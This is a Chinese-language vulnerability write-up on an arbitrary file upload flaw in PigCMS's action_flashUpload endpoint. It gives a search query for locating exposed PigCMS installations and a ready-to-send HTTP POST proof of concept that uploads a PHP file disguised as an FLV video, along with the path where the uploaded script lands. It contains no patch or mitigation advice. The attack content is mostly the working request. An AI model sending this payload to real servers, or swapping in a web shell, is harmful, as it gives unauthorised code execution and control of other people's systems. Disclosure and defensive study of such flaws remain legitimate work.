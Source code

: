 # 

# PigCMS action_flashUpload 任意文件上传漏洞

## 漏洞描述

PigCMS action_flashUpload 方法中存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取到服务器权限

## 漏洞影响

pigcms

## 网络测绘

```
app.name="PigCMS"
```

## 漏洞复现

登陆页面

![image-20230828161452591](images/image-20230828161452591.png)

验证POC

```
POST /cms/manage/admin.php?m=manage&c=background&a=action_flashUpload HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----aaa

------aaa
Content-Disposition: form-data; name="filePath"; filename="test.php"
Content-Type: video/x-flv

<?php phpinfo();?>
------aaa
```

![image-20230828161506565](images/image-20230828161506565.png)

```
/cms/upload/images/2023/08/11/1691722887xXbx.php
```


